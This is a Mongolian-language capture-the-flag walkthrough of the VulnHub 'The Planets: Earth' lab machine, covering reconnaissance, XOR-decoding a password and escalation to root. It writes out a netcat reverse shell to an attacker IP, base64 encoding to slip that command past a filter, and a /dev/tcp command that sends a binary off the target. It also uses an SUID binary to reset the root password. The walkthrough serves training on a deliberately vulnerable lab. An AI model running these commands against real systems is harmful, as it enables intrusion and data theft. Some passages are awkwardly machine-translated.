 # Machine1 "THE PLANETS: EARTH"
1. Target-ын мэдэээл авах netdiscover командыг хийснээр бидний зорилтот IP гэж юу болохыг харах боломжтой
![1](https://github.com/Bultuush/Machine/assets/129934501/baf59437-0b31-484f-93a3-d8f46e00e7b3)
Target-ын IP хаяг 192.168.56.103
![image](https://github.com/Bultuush/Machine/assets/129934501/6156076b-0be7-40cc-a88d-2e48fc7156a9)
**nmap -sV 192.168.10.13**
-sV --> Энэ сонголт нь Nmap-д хувилбар илрүүлэхийг хэлдэг.
![image](https://github.com/Bultuush/Machine/assets/129934501/c3650dd7-fef8-48d7-9ad0-43d3cb26508c)
Би энд нэмсэн -p- - бүх портуудыг скан, -v - дэлгэрэнгүй горимыг сканнерын явцын талаар мэдээлэл авах боломжтой.
22,80, 443 гэсэн 3 порт нээлттэй байгааг бид харж байна. Энэ портуудын ажиллаж байгаа үйлчилгээ эмзэг байгаа эсэхийг шалгах нь үргэлж сайн арга тул https://www.exploit-db.com/ хаягийг шалгана уу. Гэхдээ энэ тохиолдолд мөлжлөг илрээгүй.
Дараа нь яах вэ? Мөнгөн усны хайрцагт байгаа шиг Dirb-ийг ашиглацгаая https://medium.com/@wiktorderda/vulnhub-the-planets-mercury-ctf-10c35ab7607d
![image](https://github.com/Bultuush/Machine/assets/129934501/a3e3120f-58f6-4206-a517-3bcec230a1af)
Ажиллуулах command:
**dirb http://192.168.10.13**
Та үгийн жагсаалтыг зааж өгөх шаардлагагүй - энэ нь анхдагчаар common.txt байна, гэхдээ хэрэв та хүсвэл үүнийг өөр зүйл болгон өөрчилж болно.
Энэ тохиолдолд dirb зөвхөн /cgi-bin олддог. Үүнд хандах боломжтой эсэхийг шалгацгаая:
![image](https://github.com/Bultuush/Machine/assets/129934501/dc42648e-182f-4d6b-a87f-eb87b7eaf8e0)
Иймд хандах боломжгүй, мөн http://192.168.10.13 руу очвол бид Муу хүсэлт(400) алдаа авах болно. Гэсэн хэдий ч бидэнд 443 порт нээлттэй байгаа тул https://192.168.10.13-ээр дамжуулан сайт руу орвол юу болохыг шалгацгаая.
![image](https://github.com/Bultuush/Machine/assets/129934501/32d4226a-4436-4dd5-8408-e73f55088f66)
Бидэнд Fedora админ хуудас байгаа ч үнэхээр хэрэгтэй зүйл байхгүй. Гэсэн хэдий ч бид зорилтот талаараа ямар нэг зүйлийг олох хэрэгтэй, энэ бол бидний авсан цорын ганц зөвлөгөө бөгөөд мэдээлэл нь хаа нэгтээ байх ёстой
Сайтын SSL сертификатыг шалгаад та дараах мэдээллийг авах болно.
![image](https://github.com/Bultuush/Machine/assets/129934501/d9371d99-672a-4a87-83d0-5e5048235dc6)
Тиймээс бид Дэлхий хуудсыг амжилттай харахын тулд Кали хайрцагт байхгүй байгаа DNS нэрийг харж болно.
![image](https://github.com/Bultuush/Machine/assets/129934501/65b2673c-092c-4417-b7de-847c2fa1efe2)
Run command :
**echo "192.168.10.13 earth.local" >> /etc/hosts
echo "192.168.10.13 terratest.earth.local" >> /etc/hosts**

За, үүний дараа хуудсууд хэрхэн харагдахыг харцгаая, дэлхий рүү яв. local-ыг шалгана уу
![image](https://github.com/Bultuush/Machine/assets/129934501/5c322281-0302-462d-a660-96173edc44e2)
Хуудсууд өөр өөр харагдаж байгааг та харж байгаа тул бид зурвасын хайрцаг болон доод хэсэгт зарим мессежийг авсан
![image](https://github.com/Bultuush/Machine/assets/129934501/1f3f391d-f758-4777-a934-3a5a4482aee4)
#**Хэрэглэгчийн нууц үгийг авч байна**

За, бидэнд байгаа ч энэ нь юу болохыг мэдэхгүй байгаа тул далд сангуудыг дахин хайхын тулд dirb-г дахин ажиллуулах нь зүйтэй.
![image](https://github.com/Bultuush/Machine/assets/129934501/a34738cf-d010-4832-a9a5-4ea54c72b9ba)
![image](https://github.com/Bultuush/Machine/assets/129934501/7fbe1214-c104-4cfc-9386-bd71925f837b)
Ажиллуулах тушаал:
**dirb http://earth.local
dirb https://terratest.earth.local**

Одоо хараарай, би http://terratest.earth.local-г ажиллуулахдаа earth.local-тай ижил үр дүн авсан тул оронд нь https:// нэмэх шаардлагатай болсон.
Бидэнд ямар лавлахууд онцгой сонирхолтой болохыг харж болно.
Earth.local-д бид /admin, terratest.earth.local-д /index.html болон /robots.txt байна.
Хөтөч дээр https://terratest.earth.local/robots.txt гэж бичээд robots.txt-г нээнэ үү.
![image](https://github.com/Bultuush/Machine/assets/129934501/3c076bdd-57f9-4b1c-88ee-21affd222f38)
Бид testingnotes.txt гэсэн нэг сонирхолтой нэмэлттэй txt файлтай болсон
Тиймээс бид үүнийг нээгээд дараах зүйл гарч ирнэ.
![image](https://github.com/Bultuush/Machine/assets/129934501/21df813f-c5f8-45bc-8db3-a07a50f1334b)
XOR шифрлэлт нь дэлхийн үндсэн хуудсан дээр бидний харсан мессежүүдийг шифрлэхэд ашиглагдаж байсныг бид мэднэ! Хэрэв та анхааралтай уншвал: testdata.txt нь шифрлэлтийг шалгахад ашиглагдаж байсан тул testdata.txt файлыг нээх боломжтой эсэхийг харцгаая.
![image](https://github.com/Bultuush/Machine/assets/129934501/dda25335-0a85-4fa7-a39a-6eb3a1db458c)
За - энэ хүртэл бидэнд байгаа бүх зүйлийг нэгтгэн дүгнэвэл:

Бид testingnotes.txt-аас terra <- гэсэн хэрэглэгчийн нэртэй
* Бидэнд earh.local хуудаснаас шифрлэгдсэн мессеж байна
* Бидэнд testdata.txt гэсэн шифрлэлтийн түлхүүр байгаа бөгөөд мессежийг тайлахад ашиглаж болно
* Earth.local/admin-д админ хуудас байдгийг бид мэдэж байгаа тул мессежийн кодыг тайлахдаа түүн рүү нэвтрэх арга замыг олж мэдэх боломжтой.
Ингээд CyberChef-д очоод мессежүүд нь юу болохыг харцгаая!
https://gchq.github.io/CyberChef/
![image](https://github.com/Bultuush/Machine/assets/129934501/ec0b20d3-312c-4557-bf67-0bec1f4cbbee)
Бид testdat-г түлхүүр болгон оруулаад үндсэн хуудаснаас мессежийг оруулга руу хуулна.
Хоол хийцгээе! Бид terra дансны нууц үгтэй!
Earth.local/admin руу ороод нэвтэрнэ үү.
Одоо бид хайрцаг дээрх тушаалуудыг гүйцэтгэж болно!
![image](https://github.com/Bultuush/Machine/assets/129934501/af57d087-bbef-4812-a68f-9eb62cd0f00b)
![image](https://github.com/Bultuush/Machine/assets/129934501/40724b4d-f66a-4228-be77-7ebaaeb119dc)
Командыг ажиллуулна уу:
**cd /гэр; ls -al;pwd**
Үүнээс бид хавтас /home болон user earth байгааг харж болно
![image](https://github.com/Bultuush/Machine/assets/129934501/92a4d335-7346-40f9-8839-30b70fc0e844)
Гэсэн хэдий ч тушаалыг ажиллуулна уу
**ls /var/earth_web/**
Далбаа нуугдсан earth_web хавтсыг шалгахын тулд. Туг хаана байгааг би яаж мэдэх вэ? Би зүгээр л ls командын тусламжтайгаар фолдеруудыг хавтас тус бүрээр нь тоолж, хавтаснуудын агуулгыг шалгадаг.
![image](https://github.com/Bultuush/Machine/assets/129934501/d43e8a42-d0c4-4f5d-a3f5-8667bf861f79)
![image](https://github.com/Bultuush/Machine/assets/129934501/07ab64a7-8e6f-4c15-93f6-b60f54c4bd8f)
За, бидэнд хэрэглэгчийн flag байна. Үндсэн flag-ийг хэрхэн олж авах вэ?
# Зорилтот системд холбогдож байна
Тиймээс зорилтот компьютерт холбогдох хамгийн үр дүнтэй арга бол netcat сонсогч ашиглах явдал юм.
CLI командын цонхонд тушаалыг ажиллуулна уу:
**nc -e /bin/bash 192.168.56.101 4444**
Энд 4444 нь манай netcat холболтын портын дугаар юм. Run командыг дарахаас өмнө терминал дээр дараах тушаалыг гүйцэтгэнэ.
**nc -lvnp 4444**
![image](https://github.com/Bultuush/Machine/assets/129934501/c6d486b5-2b2a-4ddd-87e1-cf0a3d10da7b)
Run командын товчийг дарахаас өмнө таны дэлгэц иймэрхүү харагдах ёстой.
Дарсан уу? Тэгээд одоо яах вэ? Зорилтот компьютерээс алсаас холбогдохыг зөвшөөрөөгүй тул амжилтгүй болсон. Гэсэн хэдий ч бид зорилтот машиныг хууран мэхэлж, хүссэн зүйлээ хийх боломжтой. Бид тушаалыг шифрлээд, түүнийг тайлж, нэгэн зэрэг ажиллуулахыг албадах хэрэгтэй.
Эхлээд бид netcat listener командын шифрийг тайлах хэрэгтэй бөгөөд энэ нь:
**nc -e /bin/bash 192.168.56.101 4444**
Терминал цонхыг нээгээд доорх тушаалыг ажиллуулна уу:
**echo 'nc -e /bin/bash 192.168.56.101 4444' | base64**
Үүний үр дүн нь кодлогдсон netcat тушаал болох тэмдэгтүүдийн санамсаргүй мөр байх болно
![image](https://github.com/Bultuush/Machine/assets/129934501/6b8ce564-8ce4-4f28-83ab-acfcafcc3669)
CLI команд руу хуулсан хатгалттай бол үүнийг ажиллуулна уу:
**echo 'өөрийн_кодлогдсон_мөрийг_энд_тавих' | base64 -d | bash**
**d** нь код тайлахад зориулагдсан
bash нь энэ командыг скрипт болгон ажиллуулахыг албадах зориулалттай
![image](https://github.com/Bultuush/Machine/assets/129934501/170f15e6-7f45-44b1-a3c7-042650b88a16)
![image](https://github.com/Bultuush/Machine/assets/129934501/183fdb0d-e5b8-4087-bf57-1898c8c2d4ca)
Run команд дээр дарвал сервер хэсэг хугацаанд зогсох боловч netcat сонсогчийг харна уу. Бид холболттой болсон.
# Үндсэн бүртгэл авч байна
Эхний команд нь whoami бөгөөд энэ нь биднийг "апачи" гэдгийг харуулж байна.
За, одоо яах вэ? Бид сул файлын зөвшөөрлийг хайх болно. Энэ нь бид apache хэрэглэгчийн root эрхээр ажиллуулж болох файл хайж байна гэсэн үг.
Бид энэ командыг ажиллуулах хэрэгтэйг олж мэдэхийн тулд (энэ нь ашиглаж болох эдгээр эмзэг байдлыг олоход тань туслах маш хэрэгтэй команд бөгөөд үүнийг хадгалаарай!)
**Find / -perm -u=s -type f 2>/dev/null**
![image](https://github.com/Bultuush/Machine/assets/129934501/a0063914-410e-413b-9749-26067c28e44c)
Тиймээс reset_root файлыг шалгая, сонирхолтой харагдаж байна. Эхлээд файлын мэдээллийг шалгаад дараа нь файлыг ажиллуулахыг оролдож болно.
Мэдээллийг шалгахын тулд **/usr/bin/reset_root** файлыг ажиллуул
Файлыг ажиллуулахын тулд: **reset_root**-г ажиллуулна уу
![image](https://github.com/Bultuush/Machine/assets/129934501/3634cbbf-9889-4974-acdf-de407747ff7e)
![image](https://github.com/Bultuush/Machine/assets/129934501/12748f64-4a5f-4ea8-a61a-9691a96d73f0)

За, одоо байгаа шиг файлыг гүйцэтгэх боломжгүй байгаа нь тодорхой байна, бид үүнийг хийх явцад алдаа гарлаа, бид netcat-ээр файлд дүн шинжилгээ хийх боломжгүй байна. Бид бусад хэрэгслийг ашиглахын тулд файлыг Кали руу илгээх хэрэгтэй.
# Файлыг netcat-ээр хэрхэн илгээх вэ?
Кали дээрх өөр терминал дээр өөр netcat сонсогчийг эхлүүлээрэй
Энэ командыг ажиллуулна уу: **nc -lvnp 3333 > reset_root**
Бид зорилтот систем дээр байгаа нөгөө netcat сесс дээр
Командыг ажиллуулна уу: **cat /usr/bin/reset_root > /dev/tcp/192.168.56.101 3333**
![image](https://github.com/Bultuush/Machine/assets/129934501/2ef29652-0399-41cc-a75e-4bba0dd320d4)

![image](https://github.com/Bultuush/Machine/assets/129934501/6535e0ec-9d6f-4021-aaa9-8d7fb217d53a)

Манай системд файл байгаа

![image](https://github.com/Bultuush/Machine/assets/129934501/754f26de-304b-4f74-8646-356ff2052f96)

Энгийн cat командыг ажиллуулж файлыг шалгацгаая
![image](https://github.com/Bultuush/Machine/assets/129934501/55033235-1acf-4a49-80bd-30154f6ff59a)
Мөн зохих хэрэгсэлгүйгээр бид юу нь буруу, яагаад файлыг зорилтот систем дээр ажиллуулах боломжгүй байгааг тодорхойлох боломжгүй хэвээр байна. Бид ltrace хэмээх хэрэгслийг суулгах ёстой. Хэрэв танд байхгүй бол y дээр дарж зөвшөөрч суулгана уу.
Одоо бид файлын агуулгыг харж болно, тушаалыг ажиллуулна уу:
**ltrace ./reset_root**
![image](https://github.com/Bultuush/Machine/assets/129934501/84340cd3-389c-4e0c-a7b2-9d574e2c0c77)

Файлыг зөв ажиллуулахын тулд дутуу байгаа 3 файлыг тодруулсан. Тиймээс бид эдгээр файлуудыг зорилтот систем дээрх netcat холболтоор үүсгэх хэрэгтэй. Манай netcat сонсогч руу буцаж шилжиж, дутуу байгаа файлуудыг үүсгэнэ үү
![image](https://github.com/Bultuush/Machine/assets/129934501/b145e88f-42ee-43f3-8830-8fd61d27dad3)

Энэ файлуудыг үүсгэхийн тулд: touch + filepath (ltrace үр дүнгээс хуулсан) командыг ажиллуулаад Enter дарна уу.
reset_root файлыг ажиллуул!
![image](https://github.com/Bultuush/Machine/assets/129934501/47839843-c43e-4a69-961d-b4202285795e)

Агуу их! Бид файлыг ажиллуулсан бөгөөд одоо үндсэн нууц үгийг "Дэлхий" болгож шинэчиллээ.
Энэ командыг ажиллуулж root бүртгэл рүү шилжье: **su root**
![image](https://github.com/Bultuush/Machine/assets/129934501/01de08d5-f288-4a68-a1a3-57034e630bb7)

Одоо та үндсэн flag-ийг хайх хэрэгтэй
![image](https://github.com/Bultuush/Machine/assets/129934501/d8d3b369-cfb5-4963-a9cf-f52f150bc429)

Эцэст нь энэ нь хийгдсэн! Энэ нь амаргүй байсан ч бид зарим нэг заль мэх хийх хэрэгтэй. Энэ нь эхний хайрцгаас илүү хэцүү гэж би хэлэх болно, гэхдээ энэ нь жагсаалтын сүүлчийн гараг болох Сугар гарагаас илүү хялбар байх болно. Танд алхалт таалагдсан гэж найдаж байна.
